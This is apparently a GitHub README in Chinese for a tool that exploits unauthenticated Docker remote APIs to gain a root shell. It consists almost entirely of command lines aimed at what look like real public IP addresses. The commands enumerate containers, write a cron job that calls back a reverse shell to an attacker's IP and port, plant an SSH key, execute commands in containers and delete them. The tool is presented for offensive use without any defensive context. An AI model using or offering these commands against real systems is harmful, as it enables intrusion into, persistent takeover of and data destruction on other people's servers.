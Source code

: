 # docker_api_vul
docker 未授权访问漏洞利用脚本

##安装docker-py库

    pip install docker-py

##查看运行的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375

##查看所有的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -a

##查看所有镜像

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -l

##查看端口映射

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -L

##写计划任务（centos,redhat等,加-u参数用于ubuntu等）

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口
    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口

##写sshkey(自行修改脚本的中公钥)

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -k

##在容器中执行命令

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -e "id" -I 容器id

##删除容器

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -c -I 容器id

##修改client api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -v 1.22

##查看服务端api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -V

